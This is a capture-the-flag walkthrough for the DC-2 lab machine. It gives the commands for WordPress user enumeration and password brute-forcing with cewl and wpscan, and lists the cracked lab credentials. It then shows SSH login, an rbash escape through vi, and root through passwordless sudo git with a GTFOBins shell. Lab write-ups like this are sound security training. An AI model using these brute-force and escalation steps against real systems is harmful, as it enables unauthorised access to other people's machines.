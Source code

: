 # DC - 2

nmap enumeration

![](../.gitbook/assets/1111111111111111%20%2815%29.png)

finding webapp directories

![](../.gitbook/assets/1111111111111111%20%2818%29.png)

the output indicates that we have wp-admin directory so this is a wordpress CMS

add dc-2 to /etc/hosts of your kali machine to browse the webapp 

![](../.gitbook/assets/1111111111111111%20%287%29.png)

check out all pages for anything useful

![](../.gitbook/assets/1111111111111111%20%284%29.png)

create a wordlist using cewl command:

```text
cewl -m 4 -e -w wordlist http://dc-2
```

enumerate usernames with wpscan:

```text
wpscan --url http://dc-2  --enumerate u --force --wp-content-dir wp-content 
```

![](../.gitbook/assets/1111111111111111%20%285%29.png)

userlist:

```text
admin
tom
jerry
```

now lets brute force these acounts with the wordlist

```text
wpscan --url http://dc-2 --passwords wordlist  --usernames userlist -t 25
```

![](../.gitbook/assets/1111111111111111.png)

jerry : adipiscing

 tom : parturient

lets try ssh \( port 7744\)



![](../.gitbook/assets/1111111111111111%20%2813%29.png)

we have an rbash we need to escape from it

echo $path

![](../.gitbook/assets/1111111111111111%20%289%29.png)

we have less, ls, scp and vi

we can escape the shell through vi command:

```text
vi
:set shell=/bin/bash
:shell
```

```text
less flag3.txt
```

![](../.gitbook/assets/1111111111111111%20%2810%29.png)

so we need to su to jerry

su is not available for us so we should fix the $PATH variable

fix the path problem

```text
export PATH=/bin:/usr/bin:$PATH
```

su jerry

![](../.gitbook/assets/1111111111111111%20%2811%29.png)

now we need r00t:

![](../.gitbook/assets/1111111111111111%20%2817%29.png)

we can sudo git without password

use gtfobins instructions for this privesc method:

```text
sudo git -p help config
!/bin/sh
```

![](../.gitbook/assets/1111111111111111%20%283%29.png)

done !













